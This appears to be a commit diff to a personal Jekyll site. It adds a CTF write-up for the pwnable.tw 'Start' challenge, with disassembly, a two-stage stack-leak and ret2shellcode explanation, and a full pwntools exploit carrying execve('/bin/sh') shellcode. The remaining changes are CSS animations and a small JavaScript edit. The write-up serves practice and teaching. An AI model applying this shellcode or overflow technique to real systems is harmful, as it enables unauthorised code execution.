

Before and after one commit to HimanshuP601/HimanshuP601.github.io, a Jekyll site: the page built from writeups.html, in a window 1280 px wide and 1400 px high, scrolled down 10100 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Uploaded a Writeup

````diff
--- /dev/null
+++ b/_writeups/pwnable.tw-start.md
@@ -0,0 +1,113 @@
+---
+layout: page
+title: "Start"
+major_type: CTF
+parent_group: pwnable.tw
+summary: "Introduction to pwnable.tw: Leaking a stack pointer to execute shellcode on the stack via ret2shellcode."
+---
+
+**Flag:** `FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}`
+
+## Approach (Step by Step)
+
+1. The challenge provides a binary named `start`. Running `file` and `checksec` on it reveals it's a 32-bit statically linked executable with almost all binary protections disabled (No Canary, NX disabled, No PIE).
+2. The binary is extremely small (564 bytes) and only contains `_start` and `_exit` routines.
+3. Disassembling `_start` in `gdb`:
+
+```nasm
+0x8048060 <_start>:    push   esp
+0x8048061 <_start+1>:  push   0x804809d      ; push address of _exit
+0x8048066 <_start+6>:  xor    eax,eax
+0x8048068 <_start+8>:  xor    ebx,ebx
+0x804806a <_start+10>: xor    ecx,ecx
+0x804806c <_start+12>: xor    edx,edx
+0x804806e <_start+14>: push   0x3a465443     ; "CTF:"
+0x8048073 <_start+19>: push   0x20656874     ; "the "
+0x8048078 <_start+24>: push   0x20747261     ; "art "
+0x804807d <_start+29>: push   0x74732073     ; "s st"
+0x8048082 <_start+34>: push   0x2774654c     ; "Let'"
+0x8048087 <_start+39>: mov    ecx,esp        ; ecx points to the string
+0x8048089 <_start+41>: mov    dl,0x14        ; length = 20
+0x804808b <_start+43>: mov    bl,0x1         ; fd = stdout
+0x804808d <_start+45>: mov    al,0x4         ; sys_write
+0x804808f <_start+47>: int    0x80           ; write(1, "Let's start the CTF:", 20)
+0x8048091 <_start+49>: xor    ebx,ebx        ; fd = stdin
+0x8048093 <_start+51>: mov    dl,0x3c        ; length = 60
+0x8048095 <_start+53>: mov    al,0x3         ; sys_read
+0x8048097 <_start+55>: int    0x80           ; read(0, esp, 60)
+0x8048099 <_start+57>: add    esp,0x14       ; clean up the string from stack
+0x804809c <_start+60>: ret                   ; jump to return address
+```
+
+4. The program pushes the string `"Let's start the CTF:"` onto the stack (20 bytes), then calls `sys_write` to print it.
+5. It then calls `sys_read` to read up to 60 bytes into the stack buffer.
+6. After reading, it adds `0x14` (20 bytes) to `esp`, effectively bypassing the string we printed, and executes `ret`. The address it returns to is the `_exit` address pushed at `0x8048061`.
+7. **Vulnerability:** Since we can read 60 bytes but the buffer is only 20 bytes away from the return address, we have a classic buffer overflow. We need `20` bytes of padding to reach the return address, leaving us `60 - 24 = 36` bytes for our shellcode.
+
+### Stage 1: Stack Leak
+Since ASLR is likely enabled on the remote server and the stack address changes, we cannot jump to our shellcode directly. We need a stack leak first.
+We can overwrite the return address with the address of the `sys_write` call within the binary itself (`0x08048087`).
+
+```python
+payload  = b'A' * 20
+payload += p32(0x08048087)
+```
+When `ret` is executed, it jumps back to `mov ecx, esp`, but `esp` now points further down the stack to a saved stack pointer. The `write` syscall will leak 20 bytes from the stack including this stack address, and then the program will execute `sys_read` again, waiting for a second payload!
+
+### Stage 2: Shellcode Execution
+By receiving the first 4 bytes from the leak, we can calculate the exact address where our shellcode will be stored (`esp + 20`).
+We can then send a second payload that overwrites the return address with the address of our shellcode, followed by the shellcode itself.
+
+```python
+shellcode_addr = esp + 0x14
+payload  = b'A' * 20
+payload += p32(shellcode_addr)
+payload += shellcode
+```
+
+### Exploit Script
+
+```python
+from pwn import *
+
+context.arch = 'i386'
+context.os = 'linux'
+
+# p = process('./start')
+p = remote('chall.pwnable.tw', 10000)
+
+# 25-byte execve("/bin/sh") shellcode
+shellcode  = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
+shellcode += b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
+shellcode += b"\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
+
+# Receive initial banner
+p.recvuntil(b'CTF:')
+
+# Stage 1 - Leak stack
+leak_gadget = 0x08048087
+
+payload  = b'A' * 20
+payload += p32(leak_gadget)
+
+p.send(payload)
+
+# Receive leaked ESP
+leak = p.recv(20)
+esp = u32(leak[:4])
+
+log.success(f'Leaked ESP: {hex(esp)}')
+
+# Shellcode will be after RET
+shellcode_addr = esp + 0x14
+log.info(f'Shellcode addr: {hex(shellcode_addr)}')
+
+# Stage 2 - Execute shellcode
+payload  = b'A' * 20
+payload += p32(shellcode_addr)
+payload += shellcode
+
+p.send(payload)
+
+p.interactive()
+```
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -47,6 +47,7 @@ body {
   filter: blur(120px);
   z-index: -1;
   opacity: 0.15;
+  animation: floatOrb 10s ease-in-out infinite alternate;
 }
 .glow-orb-1 {
   width: 400px;
@@ -61,6 +62,14 @@ body {
   background: var(--accent-purple);
   bottom: 10%;
   right: -50px;
+  animation-delay: -5s;
+  animation-duration: 12s;
+}
+
+@keyframes floatOrb {
+  0% { transform: translate(0, 0) scale(1); opacity: 0.15; }
+  50% { transform: translate(30px, 20px) scale(1.1); opacity: 0.2; }
+  100% { transform: translate(-20px, 40px) scale(0.9); opacity: 0.1; }
 }
 
 /* Background Raw Code Overlay */
@@ -69,7 +78,7 @@ body {
   top: 0;
   left: 0;
   width: 100%;
-  height: 100%;
+  height: 200%;
   z-index: -2;
   font-family: var(--font-mono);
   font-size: 0.95rem;
@@ -81,6 +90,12 @@ body {
   pointer-events: none;
   user-select: none;
   overflow: hidden;
+  animation: codeScroll 120s linear infinite;
+}
+
+@keyframes codeScroll {
+  0% { transform: translateY(0); }
+  100% { transform: translateY(-50%); }
 }
 
 /* Scrollbar styling */
@@ -165,6 +180,12 @@ header .container {
 .site-title::before {
   content: '0x';
   color: var(--accent-purple);
+  animation: pulseColor 2s infinite alternate;
+}
+
+@keyframes pulseColor {
+  0% { color: var(--accent-purple); text-shadow: 0 0 5px rgba(179, 0, 255, 0.5); }
+  100% { color: var(--accent-cyan); text-shadow: 0 0 10px rgba(0, 229, 255, 0.8); }
 }
 
 nav a {
@@ -197,6 +218,12 @@ nav a.active {
 /* Base Content */
 main {
   flex-grow: 1;
+  animation: fadeInMain 0.8s ease-out forwards;
+}
+
+@keyframes fadeInMain {
+  0% { opacity: 0; transform: translateY(20px); }
+  100% { opacity: 1; transform: translateY(0); }
 }
 
 .profile-header h1 {
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -83,4 +83,10 @@ document.addEventListener("DOMContentLoaded", function() {
                 mediumContainer.innerHTML = "<p style='color: red;'>[!] err_timeout: unable to resolve feed</p>";
             });
     }
+
+    // 4. Duplicate Background Code for Infinite Scroll Effect
+    const bgCodeLayer = document.getElementById("bg-code-layer");
+    if (bgCodeLayer) {
+        bgCodeLayer.innerText = bgCodeLayer.innerText.repeat(4);
+    }
 });
````
Also changed, not shown: 14 other files.
